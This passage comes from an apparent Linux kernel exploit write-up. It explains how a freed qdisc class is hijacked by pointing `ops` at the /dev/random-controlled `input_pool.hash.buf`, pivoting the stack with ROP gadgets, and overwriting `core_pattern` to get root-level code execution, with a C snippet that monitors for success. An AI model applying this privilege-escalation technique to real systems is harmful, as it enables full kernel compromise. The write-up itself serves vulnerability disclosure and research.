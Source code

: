 We now have full control over `cl->qdisc`, but what value should the `->ops` field hold in order to control `cl->qdisc->ops->peek` without leaking a kernel heap address?

Upon investigation, we discovered that the contents of the kernel variable `&input_pool.hash.buf` can be controlled by writing data to `/dev/random` or `/dev/urandom`. For further details, please refer to [novel techniques](./novel-techniques.md).

```
---------------
| active list |
---------------
       |
       v                                             (input_pool.hash.buf)
    ---------------  (qdisc)  ---------------          ---------------   -
    | cl (freed)  |  -------> | 0x414141... |          | 0x424242... |    |
    ---------------           | ops         | -------> | 0x424242... |     | - 0x40
                              | ...         |          | ...         |    |
                              ---------------          ---------------   -
```

We simply set `->ops` to the kernel variable `&input_pool.hash.buf` and fill the hash buffer with stack-pivoting gadgets to control `->ops->peek`. When `cl->qdisc->ops->peek()` is invoked, execution pivots the kernel stack to the value in RDI, which points to `cl->qdisc` — an object fully under our control.

```
---------------
| active list |
---------------
       |
       v                                             (input_pool.hash.buf)
    ---------------  (qdisc)  ----------------          --------------------
    | cl (freed)  |  -------> | rop_gadget_1 |          | rop_xchg_rdi_rsp |
    ---------------           | ops          | -------> | rop_xchg_rdi_rsp |
                              | rop_gadget_2 |          | ...              |
                              ----------------          --------------------
```

We overwrite the kernel variable `core_pattern[]` using our ROP chain, which performs two function calls:
1. `_copy_from_user(&core_pattern, "|/proc/%P/fd/666", 0x30)` - overwrites `core_pattern[]` with user-controlled data.
2. `msleep(0x10000000)` - prevents the corrupted kernel stack from triggering a kernel panic by putting the task to sleep.

## 3.5. Get The Flag

During the initialization phase, a `core_pattern` monitoring process is launched to detect whether the exploitation has succeeded.

``` c
int main(int argc, char *argv[])
{
    // [...]
    /**
     * Create a child process to monitor core_pattern. If the core_pattern is
     * overwritten due to the vulnerability, it immediately triggers a segfault.
     */
    if (fork() == 0) {
        setup_core_pattern_monitor();
    }
    // [...]
}
```
